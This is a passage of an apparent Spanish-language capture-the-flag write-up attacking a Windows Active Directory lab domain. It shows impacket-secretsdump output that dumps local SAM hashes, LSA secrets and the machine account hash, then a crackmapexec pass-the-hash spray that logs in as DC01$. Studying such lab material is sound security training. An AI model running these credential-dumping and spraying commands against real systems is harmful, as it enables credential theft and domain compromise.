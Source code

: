 ```bash
impacket-secretsdump -system SYSTEM -security SECURITY -sam SAM LOCAL
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:6370e8f7f3d65aadf5d52c02e4f3dbd92c44e3eadea2d7d9c27c718ce527538dc41e5b967c76ba8749f8ff302884abef0c3e1d6aa937965dbe69f02a5fb3dc8cc21997701834dd231c740007ed8c18049206ffb74a364e18be18b57c538ce808b8fc31183887aa10a5b9c1e272dd34023102f397895354fd04c704338889041b2e1040d1a2ee9c085fc63eb97ad7b8e2da5b91db13d0415f8af70970832bece87319300e35c99b02e3677eca9836a8dd5c7db522ce1092ec3533f2917a3b7e7287eedec6d422aff78121bd0f00b39126e914196bfdf9edd61390f9a6b6be114472c0551b345ac505152af04734654dc3
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b9dd4c7c72ad5d5dacbff4590a8426cc
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up...
```

Como podemos ver hemos obtenido los hashes de las contraseñas de los usuarios pero de forma local, lo que queremos son las contraseñas de los mismos usuarios pero del dominio, el hash que nos interesa es el del Domain Controller, y la que parece que podria ser es la de $MACHINE.ACC.

Vamos a hacer password spraying con el hash de machine.acc y los usuarios del dominio que ya tenemos en un archivo users.txt.

```bash
crackmapexec smb 10.0.4.18 -u users.txt -H 'b9dd4c7c72ad5d5dacbff4590a8426cc' --continue-on-success --no-bruteforce`
```

Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\Guest:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:b9dd4c7c72ad5d5dacbff4590a8426cc 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\bmark0:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\otara1:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\kleo2:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE 
```